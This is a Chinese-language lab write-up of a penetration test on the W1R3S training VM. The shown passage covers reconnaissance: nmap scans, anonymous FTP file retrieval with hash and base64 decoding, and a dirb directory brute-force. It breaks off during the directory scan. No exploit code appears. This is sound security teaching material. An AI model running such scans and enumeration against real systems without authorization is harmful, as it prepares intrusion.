










网络攻防实战 Lab06.5 Writeup
渗透目的
取得目标靶机的 root 权限
回顾课程内容
具体操作
信息收集
启动 VirtualBox 中的 Kali 攻击机与靶机，网络采用 NAT 连接
ifconfig 获取攻击机的 ip 为 10.0.2.3，使用 nmap 扫描 ip：
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | > nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 08:43 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00046s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00036s latency).
MAC Address: 08:00:27:5C:C8:D7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.13)
Host is up (0.0025s latency).
MAC Address: 08:00:27:7B:0C:7B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.10 seconds
|
考虑靶机 ip 为 10.0.2.13，继续扫描端口 nmap -sV -sC 10.0.2.13，看看有哪些服务项
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48 | Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 08:43 CST
Nmap scan report for bogon (10.0.2.13)
Host is up (0.0013s latency).
Not shown: 966 filtered tcp ports (no-response), 30 closed tcp ports (reset)
// FTP 服务
PORTSTATE SERVICE VERSION
21/tcp open ftpvsftpd 2.0.8 or later
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.0.2.3
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 ftp ftp4096 Jan 23 2018 content
| drwxr-xr-x 2 ftp ftp4096 Jan 23 2018 docs
|_drwxr-xr-x 2 ftp ftp4096 Jan 28 2018 new-employees
// SSH 服务
PORTSTATE SERVICE VERSION
22/tcp open sshOpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
| 256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_ 256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
// HTTP 服务
PORTSTATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
// SQL 服务
PORTSTATE SERVICE VERSION
3306/tcp open mysql MySQL (unauthorized)
MAC Address: 08:00:27:7B:0C:7B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.44 seconds
|
同时确定靶机操作系统为 Ubuntu
FTP 渗透测试
注意到
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|
发现 FTP 可以匿名访问，进行一顿操作

下载了一堆东西，
| 01.txt |
|---|
| New FTP Server For W1R3S.inc
|
没有价值
| 02.txt |
|---|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24 | #
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
|
01ec2d8fc11c493b25029fb1f47f39ce 是 md5 加密，查库解密为：This is not a password
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg== 是 Base64 加密，解密为 It is easy, but not that easy..
没有价值
| 03.txt |
|---|
| ___________.__ __ __ ______________________ _________ .__
\__ ___/| |__ ____ / \ / \/_ \______ \_____ \ / _____/ |__| ____ ____
| | | | \_/ __ \ \ \/\/ / | || _/ _(__ < \_____ \ | |/ \_/ ___\
| | | Y \ ___/ \ / | || | \/ \/ \ | | | \ \___
|____| |___| /\___ > \__/\ / |___||____|_ /______ /_______ / /\ |__|___| /\___ >
\/ \/ \/ \/ \/ \/ \/ \/ \/
|
ASCII 艺术字，没有价值
| worktodo.txt |
|---|
| ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡
....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
|
？翻转正常后为：
| I don't think this is the way to root!
we have a lot of work to do, stop playing around....
|
没有价值😡
| employee-names.txt |
|---|
| The W1R3S.inc employee list
Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
|
说不定有价值
然后 FTP 就没有更多内容了，sad
HTTP 渗透测试

发现是默认页面
地址爆破
用 dirb 搜一下，使用 big.txt
太长了，折叠一下
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
127
128
129
130
131
132
133
134
135
136
137
138
139
140
141
142
143
144
145
146
147
148
149
150
151
152
153
154
155
156
157
158
159
160
161
162
163
164
165
166
167
168
169
170
171
172
173
174
175
176
177
178
179
180
181
182
183
184
185
186
187
188
189
190
191
192
193
194
195
196
197
198
199
200
201
202
203
204
205
206
207
208
209
210
211
212
213 | ---- Scanning URL: http://10.0.2.13:80/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/
==> DIRECTORY: http://10.0.2.13:80/javascript/
+ http://10.0.2.13:80/server-status (CODE:403|SIZE:297)
==> DIRECTORY: http://10.0.2.13:80/wordpress/
---- Entering directory: http://10.0.2.13:80/administrator/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/alerts/
==> DIRECTORY: http://10.0.2.13:80/administrator/api/
==> DIRECTORY: http://10.0.2.13:80/administrator/classes/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/
==> DIRECTORY: http://10.0.2.13:80/administrator/installation/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/
==> DIRECTORY: http://10.0.2.13:80/administrator/language/
==> DIRECTORY: http://10.0.2.13:80/administrator/media/
+ http://10.0.2.13:80/administrator/robots.txt (CODE:200|SIZE:26)
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/
---- Entering directory: http://10.0.2.13:80/javascript/ ----
==> DIRECTORY: http://10.0.2.13:80/javascript/jquery/
---- Entering directory: http://10.0.2.13:80/wordpress/ ----
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-includes/
---- Entering directory: http://10.0.2.13:80/administrator/alerts/ ----
---- Entering directory: http://10.0.2.13:80/administrator/api/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/api/administrator/
==> DIRECTORY: http://10.0.2.13:80/administrator/api/test/
---- Entering directory: http://10.0.2.13:80/administrator/classes/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/classes/ajax/
---- Entering directory: http://10.0.2.13:80/administrator/components/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/components/configuration/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/menu/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/permissions/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/stats/
---- Entering directory: http://10.0.2.13:80/administrator/extensions/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/banners/
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/content/
---- Entering directory: http://10.0.2.13:80/administrator/installation/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/installation/html/
---- Entering directory: http://10.0.2.13:80/administrator/js/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/js/filemanager/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/jquery/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/tiny_mce/
---- Entering directory: http://10.0.2.13:80/administrator/language/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/media/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/templates/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/
---- Entering directory: http://10.0.2.13:80/javascript/jquery/ ----
+ http://10.0.2.13:80/javascript/jquery/jquery (CODE:200|SIZE:284394)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/ ----
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/css/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/images/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/includes/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/js/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/maint/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/network/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-admin/user/
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/ ----
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/themes/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/upgrade/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/uploads/
---- Entering directory: http://10.0.2.13:80/wordpress/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/api/administrator/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/api/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/classes/ajax/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/components/configuration/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/components/menu/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/components/permissions/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/components/stats/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/extensions/banners/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/extensions/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/installation/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/js/filemanager/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/js/jquery/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/js/tiny_mce/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/templates/default/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/classes/
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/css/
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/html/
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/default/images/
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/network/ ----
---- Entering directory: http://10.0.2.13:80/wordpress/wp-admin/user/ ----
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/ ----
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/themes/ ----
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/upgrade/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/templates/default/classes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/templates/default/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
